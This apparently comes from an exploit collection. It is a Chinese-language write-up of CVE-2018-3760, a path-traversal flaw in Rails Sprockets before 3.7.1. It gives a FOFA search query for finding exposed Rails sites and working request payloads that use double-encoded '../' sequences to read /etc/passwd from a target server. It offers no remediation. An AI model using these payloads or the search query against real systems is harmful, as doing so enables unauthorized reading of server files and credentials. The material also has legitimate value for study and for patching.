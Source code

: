 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## FOFA

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](./images/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](./images/202206281115997.png)

再利用POC读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](./images/202206281115231.png)
